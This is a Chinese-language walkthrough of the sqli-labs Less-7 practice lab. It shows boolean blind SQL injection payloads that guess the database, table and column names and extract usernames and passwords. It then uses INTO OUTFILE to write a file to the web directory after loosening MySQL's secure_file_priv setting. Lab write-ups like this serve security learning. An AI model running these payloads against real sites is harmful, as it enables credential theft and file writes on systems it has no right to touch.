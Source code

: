#### 方法一：布尔盲注

- 猜数据库名长度：

`?id=1')) and length((select database()))=8 --+`

- 猜测security为数据库，页面返回正确

`?id=1')) and mid(database(),1,1)='s'--+`

`?id=1')) and mid(database(),8,1)='y'--+`

- 猜出表名，列名

`?id=1')) and ascii(mid((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1))=117--+`

- 获取数据

`?id=1')) and ascii(substr((select group_concat(password,username) from users limit 0,1),1,1))>=65--+`

#### 方法二：outfile导出文件

根据页面正常返回`You are in.... Use outfile......`

- 我们可以在1-6关中注入获得数据库路径，

`@@datadir`返回的是数据库存储数据的路径

```
?id=-1' union select 1,2,@@datadir --+
==>D:\CTF-Tools\phpstudy_pro\Extensions\MySQL5.7.26\data\
```

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144917110.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144917110.png)

- 查看是否有读写权限：

```
?id=1')) and (select count(*) from mysql.user)>0 --+
```

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144918156.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144918156.png)

- 尝试写入文件：

```
?id=1')) union select 1,2,3 into outfile 'D:\\CTF-Tools\\phpstudy_pro\\WWW\\sqli-labs\\Less-7\\1.txt' --+
```

此时查看文件夹并没有被写入文件，问题在于权限太低，需要修改配置文件：

需要打开`phpstudy\MySQL\my.ini`文件，在其中加上一句：`secure_file_priv="/"`

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144917464.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144917464.png)

再次执行，已经生成了1.txt

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144917727.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144917727.png)
